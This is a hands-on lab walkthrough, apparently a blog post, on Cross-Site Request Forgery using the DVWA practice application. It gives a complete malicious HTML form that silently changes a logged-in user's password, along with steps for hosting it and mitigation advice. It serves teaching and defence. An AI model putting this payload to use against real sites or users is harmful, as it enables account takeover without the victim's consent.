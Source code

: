 ```yaml
---
title: Cross-Site Request Forgery (CSRF)
date: 2024-01-06 08:01:35 +0300
subtitle: Product Design
image: '/images/806.png'
---
```

# Cross-Site Request Forgery (CSRF)

## **Objective**
Understand and exploit a Cross-Site Request Forgery (CSRF) vulnerability, demonstrating how attackers use it to execute unauthorized actions on behalf of authenticated users, and learn mitigation strategies.

---

## **Purpose**
CSRF attacks trick authenticated users into performing unintended actions on a web application. This lab shows how such attacks work, their risks, and how to secure applications against them.

---

## **Tools Required**
- **Kali Linux** (or any system with a web browser and Burp Suite installed).
- A vulnerable web application (e.g., Damn Vulnerable Web Application - DVWA).
- **Burp Suite Community Edition**: For intercepting and crafting requests.

---

## **Lab Topology**
- **Kali Linux**: Hosting the tools and accessing the vulnerable application.
- **DVWA**: Running locally or in a virtualized environment to simulate a vulnerable website.

---

## **Walkthrough**

### **Task 1: Setting Up DVWA**
1. **Install DVWA**:
   - Follow [DVWA installation instructions](https://github.com/digininja/DVWA).
   - Host it on a local server (e.g., XAMPP, WAMP, or a Docker container).

2. **Access DVWA**:
   - Open a browser and navigate to:
     ```
     http://<dvwa_ip>/dvwa
     ```
   - Replace `<dvwa_ip>` with the IP of the system hosting DVWA.

3. **Login to DVWA**:
   - Default credentials:
     ```
     Username: admin
     Password: password
     ```

4. **Set Security Level**:
   - Navigate to **DVWA Security**.
   - Set the security level to **Low**.

---

### **Task 2: Understanding CSRF**
1. **What is CSRF?**
   - A CSRF attack tricks a user into submitting unauthorized requests, exploiting the user's authenticated session with the target application.
   
2. **Key Indicators**:
   - No CSRF tokens in requests.
   - Sensitive actions performed via GET or POST requests without user verification.

---

### **Task 3: Identifying the Vulnerable Functionality**
1. **Navigate to the CSRF Section**:
   - In DVWA, click on the **CSRF** module in the navigation menu.

2. **Observe the Change Password Form**:
   - The form allows changing the user's password without any CSRF protection (e.g., no tokens).

3. **Inspect the Request**:
   - Open your browser’s developer tools (F12) or use Burp Suite to inspect the form submission.
   - Note the HTTP request and parameters:
     ```http
     POST /dvwa/vulnerabilities/csrf/ HTTP/1.1
     Host: <dvwa_ip>
     Content-Type: application/x-www-form-urlencoded

     password_new=123456&password_conf=123456&Change=Change
     ```

---

### **Task 4: Crafting the CSRF Exploit**
1. **Create a Malicious HTML Page**:
   - Open a text editor and create the following HTML file:
     ```html
     <html>
     <body>
         <h1>CSRF Attack Demo</h1>
         <form action="http://<dvwa_ip>/dvwa/vulnerabilities/csrf/" method="POST">
             <input type="hidden" name="password_new" value="hackedpassword">
             <input type="hidden" name="password_conf" value="hackedpassword">
             <input type="hidden" name="Change" value="Change">
             <input type="submit" value="Click Here">
         </form>
     </body>
     </html>
     ```
   - Replace `<dvwa_ip>` with the IP of your DVWA instance.

2. **Host the Malicious Page**:
   - Save the file as `csrf_exploit.html` and host it on a local server using Python:
     ```bash
     python3 -m http.server 8080
     ```
   - Access the page at:
     ```
     http://<kali_ip>:8080/csrf_exploit.html
     ```
     Replace `<kali_ip>` with your Kali Linux IP.

3. **Test the Exploit**:
   - Log in to DVWA in one browser tab.
   - Open the malicious page in another tab and click the button.
   - Check if the password has changed in DVWA.

---

### **Task 5: Mitigation Strategies**
1. **Implement CSRF Tokens**:
   - Ensure all forms include a unique, user-specific CSRF token that is validated on the server.

2. **Verify HTTP Referer Headers**:
   - Check the `Referer` header to ensure requests originate from trusted sources.

3. **Use SameSite Cookies**:
   - Configure cookies with the `SameSite` attribute to restrict cross-origin requests.

4. **Educate Users**:
   - Train users to avoid clicking unknown links while authenticated on sensitive sites.

---

## **Best Practices**
1. **Regular Vulnerability Assessments**:
   - Test applications for CSRF vulnerabilities during development and post-deployment.

2. **Use Security Frameworks**:
   - Leverage frameworks that include built-in CSRF protection (e.g., Django, Spring Security).

3. **Avoid GET for Sensitive Actions**:
   - Restrict sensitive operations to POST requests and validate input.

4. **Log and Monitor Requests**:
   - Monitor unusual patterns or repeated failed CSRF attempts.

---

## **Key Takeaways**
1. CSRF exploits trust between the user and the web application.
2. Proper input validation and CSRF token implementation are critical for defense.
3. Testing for CSRF vulnerabilities ensures applications remain secure against this attack vector.

---

## **Troubleshooting Tips**
1. **Exploit Not Working**:
   - Ensure the target site is accessible from the malicious page.
   - Verify the form action URL and parameter names.

2. **DVWA Issues**:
   - Restart the server hosting DVWA if it becomes unresponsive.
   - Confirm the security level is set to **Low** for this lab.

3. **Python Server Not Accessible**:
   - Check your firewall settings to allow connections on port `8080`.
   - Verify the IP address of the Kali Linux machine.

By completing this lab, you now understand how CSRF attacks work, how to execute them in a controlled environment, and how to implement effective defenses.